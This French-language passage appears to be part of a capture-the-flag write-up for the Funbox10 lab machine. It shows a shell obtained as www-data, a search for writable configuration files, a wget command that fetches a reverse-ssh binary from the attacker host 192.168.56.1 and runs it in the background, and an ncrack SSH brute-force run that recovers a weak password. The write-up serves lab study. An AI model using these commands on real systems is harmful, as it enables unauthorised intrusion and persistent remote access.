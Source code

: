 ```python
        print("[-] Exploit did not execute as planned")
```

Il marche comme attendu :

```console
$ python sploit2.py 
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/var/www/html/catalog/install/includes
$ find /var/www/html/ -writable -ls
529      4 -rwxrwxrwx   1 root     root         1175 Jul  3 16:42 /var/www/html/catalog/install/includes/configure.php
    70583      4 -rwxrwxrwx   1 root     root         1267 Jul  3 16:16 /var/www/html/catalog/includes/configure.php
    34996      4 -rwxrwxrwx   1 root     root         2063 Jul  3 16:16 /var/www/html/catalog/admin/includes/configure.php
$ wget http://192.168.56.1/reverse-sshx64 -O /tmp/reverse-sshx64

$ ls -al /tmp/reverse-sshx64
-rw-r--r-- 1 www-data www-data 3690496 Oct 19  2022 /tmp/reverse-sshx64
$ chmod 755 /tmp/reverse-sshx64

$ nohup /tmp/reverse-sshx64 &
```

### Oh! et Ah!

Depuis le reverse-ssh je trouve 4 utilisateurs :

```console
www-data@funbox10:/home$ ls
total 24K
drwxr-xr-x  6 root  root  4.0K Jun 24  2021 .
drwxr-xr-x 23 root  root  4.0K Jun 25  2021 ..
drwx------  2 chuck chuck 4.0K Jul 17  2021 chuck
drwx------  3 jack  jack  4.0K Jul 17  2021 jack
drwx------  3 joe   joe   4.0K Jul 19  2021 joe
drwx------  3 susan susan 4.0K Jul 19  2021 susan
```

Ncrack en a cassé un, :

```console
ncrack -f -U users.txt -P wordlists/Top1575-probable-v2.txt ssh://192.168.56.131

Starting Ncrack 0.8 ( http://ncrack.org )

Discovered credentials for ssh on 192.168.56.131 22/tcp:
192.168.56.131 22/tcp ssh: 'joe' 'letmein'

Ncrack done: 1 service scanned in 27.02 seconds.

Ncrack finished.
```
